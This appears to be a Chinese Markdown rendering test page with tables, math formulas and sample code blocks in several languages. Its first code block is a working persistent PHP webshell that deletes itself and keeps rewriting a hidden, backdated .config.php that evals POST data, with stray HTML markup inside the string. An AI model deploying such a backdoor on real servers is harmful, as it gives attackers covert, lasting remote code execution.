


+ 简单的不死马示例

  ```php
  <?php
      ignore_user_abort(true);
      set_time_limit(0);
      unlink(__FILE__);
      $file = '.config.php';
      $code = '<?php if(md5($_GET["pass"])=="1a1dc91c907325c69271ddf0c944bc72"){<span class="label label-primary">@eval($_POST[a]);}</span> ?>';
      //pass=pass
      while (1){
          file_put_contents($file,$code);
          system('touch -m -d "2018-12-01 09:10:12" .config.php');
          usleep(5000);
      }
  ?>
  ```

  > 因为运行该 php 文件后，已经将该脚本读入并作为 `opcode` 进行运行
    > `opcode` 缓存


	### 表格测试

| 时间 | 项目名称 | 项目动态 | 其他 | 测试项1 | 测试项2 | 测试项3|
|----|-----------|--------------------------|--------|--------|--------|--------|
|2023-03-27|[**veinmind-tools**](detail/veinmind-tools.md)|更新 [v2.1.0](detail/veinmind-tools.md#最近更新) 版本|无|√|√|×|
|2023-03-21|[**pocsuite3**](detail/pocsuite3.md)|更新 [v2.0.3](detail/pocsuite3.md#最近更新) 版本|无|√|×|√|
|2023-03-12|[**CDK**](detail/CDK.md)|更新 [v1.5.2](detail/CDK.md#最近更新) 版本|无|√|√|×|
|2023-03-01|[**Antenna**](detail/Antenna.md)|更新 [v1.3.2](detail/Antenna.md#最近更新) 版本|无|√|×|√|
|2023-02-22|[**HaE**](detail/HaE.md)|更新 [v2.4.6](detail/HaE.md#最近更新) 版本|无|√|√|√|
|2023-02-15|[**GShark**](detail/gshark.md)|更新 [v1.1.4](detail/gshark.md#最近更新) 版本|无|√|√|√|
|2023-02-13|[**ENScanGo**](detail/ENScanGo.md)|更新 [v0.0.9](detail/ENScanGo.md#最近更新) 版本|无|√|×|√|
|2023-02-05|[**Viper**](detail/Viper.md)|更新 [v1.5.25](detail/Viper.md#最近更新) 版本|无|√|×|×|
|2023-02-04|[**afrog**](detail/afrog.md)|更新 [v2.2.1](detail/afrog.md#最近更新) 版本|无|√|×|√|
|2023-02-03|[**passive-scan-client**](detail/passive-scan-client.md)|更新 [v0.3.1](detail/passive-scan-client.md#最近更新) 版本|无|√|√|×|


数学公式测试
$$
\frac{1}{
  \Bigl(\sqrt{\phi \sqrt{5}}-\phi\Bigr) e^{
  \frac25 \pi}} = 1+\frac{e^{-2\pi}} {1+\frac{e^{-4\pi}} {
    1+\frac{e^{-6\pi}}
    {1+\frac{e^{-8\pi}}{1+\cdots}}
  }
}
$$

常见函数 `定义域` 如下

+ $y=\frac{a}{b}\Rightarrow(x\neq0)$
+ $y=\sqrt[2n]{x}\Rightarrow(x\geq0)$
+ $y=\sqrt[2n+1]{x}\quad\Rightarrow (x\in(-\infty,+\infty),x\in R)$
+ $y=\log_a{x}\Rightarrow(x>0)\quad$
+ $y=\tan{x}\Rightarrow(x \neq k\pi+\frac{\pi}{2})$
+ $y=\cot{x}\Rightarrow(x\neq k\pi)$
+ $y=\arctan{x},y=arccot{x}\Rightarrow(x\in R,x\in(-\infty,+\infty))$
+ $y=\arcsin{x},y=\arccos{x}\Rightarrow(x\in[-1,1])$


### 图片测试
1. 图片
   + 图片1

    

   + 图片2

    
### 不同代码块测试

```python
from flask import (
    Flask,
    render_template,
    url_for,
    redirect,
    session,
    request
)
from core.woker import WorkSpaceDataAllocate;
from core.basic import md5Enc_
from core.config import *;

import uuid;


template_folder = "../templates"
static_folder = "../static"

class ServerPanInfo:
    def __init__(self) -> None:
        self.key = str( uuid.uuid4() ).replace('-','');
        self.root = False;
```


```sh
#!/bin/bash
PATH=/bin:/sbin:/usr/bin:/usr/sbin:/usr/local/bin:/usr/local/sbin:~/bin
export PATH
LANG=en_US.UTF-8

CURL_CHECK=$(which curl)
if [ "$?" == "0" ];then
	curl -sS --connect-timeout 10 -m 10 https://www.bt.cn/api/wpanel/SetupCount > /dev/null 2>&1
else
	wget -O /dev/null -o /dev/null -T 5 https://www.bt.cn/api/wpanel/SetupCount
fi

if [ $(whoami) != "root" ];then
	echo "不是root权限"
	exit 1;
fi

cd ~
setup_path="/www"
python_bin=$setup_path/server/panel/pyenv/bin/python
cpu_cpunt=$(cat /proc/cpuinfo|grep processor|wc -l)
```


```html
<!DOCTYPE html>
<html lang="en" >
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <script src="../static/js/jquery-3.6.3.min.js"></script>
    <script src="../static/js/popper.min.js"></script>
    <script src="../static/js/sweetalert.min.js"></script>
    <script src="../static/js/bootstrap_5.3/bootstrap.min.js"></script>
    <link rel="stylesheet" href="../static/css/bootstrap_5.3/bootstrap.min.css">
    <link rel="stylesheet" href="../static/css/index.css">

    <!-- ^hljs -->
    <link rel="stylesheet" href="../static/Vditor3.9.0/dist/js/highlight.js/styles/emacs.css" id="hljsCodeBlockColor">     <!--^ dark: native ;  light: emacs-->
    <script src="../static/Vditor3.9.0/dist/js/highlight.js/highlight.pack.js"></script>
    <script src="../static/js/highlight/highlightjs-line-numbers.min.js"></script>

    <!-- ^kateX.js -->
    <link rel="stylesheet" href="../static/Vditor3.9.0/dist/js/katex/katex.min.css">
    <script src="../static/Vditor3.9.0/dist/js/katex/katex.min.js"></script>

    <!-- ^Vditor/method.min.js -->
    <script src="../static/Vditor3.9.0/method.min.js"></script>

    <script src="../static/js/function.js"></script>
    <script src="../static/js/md2html.js"></script>
    <title>Document</title>
</head>
<body>
	Hello World!    
</body>
</html>
```


```js
Array.prototype.remove = function(...args){
    while(args.length > 1){
        this.remove(args.pop());
    }
    let index = this.indexOf(args[0]);
    while(index > -1){
        this.splice(index, 1);
        index = this.indexOf(args[0]);
    }
    return this; //注释
}
```


```cpp
#include "serialportthread.h"

serialportthread::serialportthread()
{
    moveToThread(this);
}

void serialportthread::run()
{
    PortSettings set = {BAUD115200,DATA_8,PAR_NONE,STOP_1,FLOW_OFF};
    myCom = new QextSerialPort("/dev/ttyUSB0",set);
    if(myCom->open(QIODevice::ReadWrite)){
        connect(myCom,SIGNAL(readyRead()),this,SLOT(onRead()));
        porthandle = new SerialPortReceive(this);
        connect(porthandle,SIGNAL(byteFinish(QByteArray)),this,SIGNAL(evt_serial_receive(QByteArray)));
        qDebug("ok");
    }else qDebug("no");
    this->exec();
}

void serialportthread::onRead()
{
    QByteArray ba =myCom->readAll();
    porthandle->dataHandle(ba);
}

void serialportthread::send(QByteArray ba)
{
    myCom->flush();
    myCom->write(ba);
}

void serialportthread::mysleep(int a)
{
    msleep(a);
}
```


```c++
#ifndef SERIALPORTTHREAD_H
#define SERIALPORTTHREAD_H

#include <QThread>
#include "./smarthome/qextserialport.h"
#include "./smarthome/serialportreceive.h"
class serialportthread : public QThread
{
    Q_OBJECT
public:
    explicit serialportthread();
    
signals:
    void evt_serial_receive(QByteArray);
private:
    QextSerialPort *myCom;
    SerialPortReceive *porthandle;
public slots:
    void run();
    void onRead();
    void send(QByteArray ba);
    void mysleep(int a);
};

#endif // SERIALPORTTHREAD_H
```

